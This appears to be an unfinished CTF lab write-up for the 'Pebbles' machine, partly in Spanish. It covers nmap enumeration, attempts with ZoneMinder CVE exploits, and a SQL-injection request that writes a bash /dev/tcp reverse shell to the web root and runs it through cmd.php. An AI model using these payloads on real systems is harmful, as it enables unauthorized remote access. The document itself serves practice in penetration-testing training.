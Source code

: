 #Pwned
```
192.168.198.52
```

## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.198.52 -vvv -p- -oN enum/full
```
The output being:

```
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTlsFY1sjAxyC1lqlzeHAaSC0ec76cB5Hoq6aVwMNphXzrhslKqJJ5L0sjOjQem02G6wukOQ/qIVzUZOPxdn4tlN+YuCRqrE7nSIj36hh6JeG4cI9t3qOJUPndLKuKSyJKwV1Dl7gQKcjS0gxO6kWybHMf4CT9a8QsF8mLDPNU3p5VfsEdrgJ+q5hNOmLYJPqwIHTdCweuSwaORn9wQGlmKphGZJlktEKEPwecDZO5KUc6g3N23G+vWv2uCmAw9ov8AQrePxdjz5/QQ8PdY6zedwcLUFjmL5jx9UhZLhDDf/pzP0wiswgm7DZXG6WHwMCbxNo0zX4/HFDswDHc/W+J
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOrgGvGclvZKKtoTk+H0ojQxTTSKljSVFLY8udD6Cb8OQLjgd5F48Em8sa7JjoCa4Mn3USw7EttQLL9a1RNEgio=
|   256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBSm8eCxMlgt56SQ1z3TjY8R0ZY2MMMlYTB4Bby39xXE
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
8080/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Tomcat
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

3305/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
```

## Nmap UDP


# Enumeration
## FTP
admin:admin creds not working
## HTTP 80
Apache/2.4.18 (Ubuntu) Server at 192.168.198.52 Port 80
http://192.168.198.52/zm/
 ZoneMinder, v1.29.0
 MooTools 1.4.5
### Directories and files
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928100334.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928100348.png?raw=true)
ZoneMinder following exploits not working
https://github.com/heapbytes/CVE-2023-26035
```
python zm-exploit2.py --target http://192.168.198.52:80/zm/index.php --cmd 'ping 192.168.45.250 -c 5'
```
https://github.com/rvizx/CVE-2023-26035
```
python3 zm-exploitmod.py -t http://192.168.198.52:80/zm/ -ip 192.168.45.250 -p 443
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928115050.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928114945.png?raw=true)

## HTTP 8080

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928105538.png?raw=true)

## HTTP 3305
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928114037.png?raw=true)


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928120121.png?raw=true)
Tenemos al usuario sally
Enviamos payload
```
sh -i >& /dev/tcp/192.168.45.250/80 0>&1
```

```
view=request&request=log&task=query&limit=100;select+'sh+-i+>%26+/dev/tcp/192.168.45.250/80+0>%261'+into+outfile+'/var/www/html/revshell3.sh'%3b
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121702.png?raw=true)
```
http://192.168.198.52:3305/cmd.php?cmd=/bin/bash%20revshell3.sh
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121715.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121728.png?raw=true)

Tenemos revshell!
# PrivEsc

## Manual

Upgrade shell with python
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

No consigo que funcione:
```
https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/40053.zip
```

mysql exploit visto en un writeup

```
https://sudsy-fireplace-912.notion.site/Pebbles-from-Proving-Grounds-without-SQLMap-by-Luis-Moret-lainkusanagi-23b29df77e6946a6bb8cb213a76a9ac8
```



## Automated

### Peass

Linux version 4.4.0-21-generic
### Mimikatz


